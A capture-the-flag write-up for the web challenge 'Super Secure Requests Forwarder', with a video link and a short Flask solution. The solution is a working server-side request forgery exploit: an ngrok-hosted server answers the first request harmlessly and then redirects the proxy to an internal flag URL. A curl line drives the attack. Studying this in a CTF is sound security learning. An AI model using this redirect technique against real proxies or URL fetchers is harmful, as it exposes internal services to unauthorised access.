 ```yaml
---
name: Super Secure Requests Forwarder (2022)
event: Social Engineering Experts CTF 2022
category: Web
description: Writeup for Super Secure Requests Forwarder (Web) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Super Secure Requests Forwarder

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=4180 "Social Engineering Experts CTF 2022: Super Secure Requests Forwarder")

## Description

> Hide your IP address and take back control of your privacy! Visit websites through our super secure proxy.

## Solution

```py
from flask import Flask, redirect, request

# flask run
# ngrok http 5000
# curl -X POST -d "url=http://c0ac-81-103-153-174.ngrok.io/exploit" http://ssrf.chall.seetf.sg:1337/

app = Flask(__name__)
check = True

@app.route("/")
def index():
    return "<a href='https://www.youtube.com/c/CryptoCat23'>👀</a>"

@app.route("/exploit", methods=['GET', 'POST'])
def handle():
    global check
    if check:  # First request = benign
        check = False
        return "First request is benign, why wouldn't the second be?!"
    else:  # Second request = malicious
        check = True
        return redirect("http://127.0.0.1/flag", code=302)
```
